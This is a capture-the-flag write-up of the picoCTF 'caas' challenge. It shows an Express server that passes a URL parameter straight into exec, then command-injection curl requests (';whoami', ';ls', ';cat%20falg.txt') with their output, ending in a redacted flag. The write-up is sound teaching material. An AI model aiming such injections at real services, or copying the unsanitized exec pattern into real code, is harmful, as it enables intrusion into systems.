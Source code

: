 # caas

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 150
Tags: picoMini by redpwn, Web Exploitation
Author: BROWNIEINMOTION

Description:
Now presenting cowsay as a service

Hints:
(None)
```

## Solution

### Analyze the code

Lets start by browsing to the web site and see what we find.  
The following text is displayed
```
Cowsay as a Service

Make a request to the following URL to cowsay your message:
https://caas.mars.picoctf.net/cowsay/{message}
```

Lets also check the HTML source code. Press `CTRL + U ` or right-click anywhere on the background and select `View page source`
```html
<!doctype html>
<html>
    <head>
        <link rel="stylesheet" href="styles.css"/>
        <script src="index.js"></script>
        <title>CaaS</title>
    </head>
    <body>
        <h1>Cowsay as a Service</h1>
        <strong>Make a request to the following URL to cowsay your message:</strong>
        <br>
        <code></code>
    </body>
</html>
```

Nothing much to see there. But there is also a `index.js` script. Lets check that
```javascript
(async () => {
  await new Promise(r => window.addEventListener('load', r));
  document.querySelector('code').textContent =
    `${window.origin}/cowsay/{message}`;
})();
```

We were also given a `index.js` from the server side
```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

Ah, we can see that whatever message we send gets executed with `exec`.  
Maybe we can use command injection?

### Exploit the service

Lets first just use the service as intended with `curl`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl https://caas.mars.picoctf.net/cowsay/picoCTF
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

```

Lets see if we can inject code, in this case `whoami`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl "https://caas.mars.picoctf.net/cowsay/picoCTF;whoami"
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
node
```

Yes, we can! And we are running as the `node` user.

### Get the flag

Lets start looking for the flag with `ls`
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl "https://caas.mars.picoctf.net/cowsay/picoCTF;ls"
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

There is a `falg.txt` file. Sneaky!

Lets try to read it
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl "https://caas.mars.picoctf.net/cowsay/picoCTF;cat falg.txt"
curl: (3) URL using bad/illegal format or missing URL
```

Ah, forgot to URL encode the space (should be `%20`)
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoMini_by_redpwn/Web_Exploitation/caas]
└─$ curl "https://caas.mars.picoctf.net/cowsay/picoCTF;cat%20falg.txt"
 _________
< picoCTF >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

### References

- [Wikipedia - Command/code injection](https://en.wikipedia.org/wiki/Code_injection)
- [Wikipedia - URL encoding](https://en.wikipedia.org/wiki/URL_encoding)
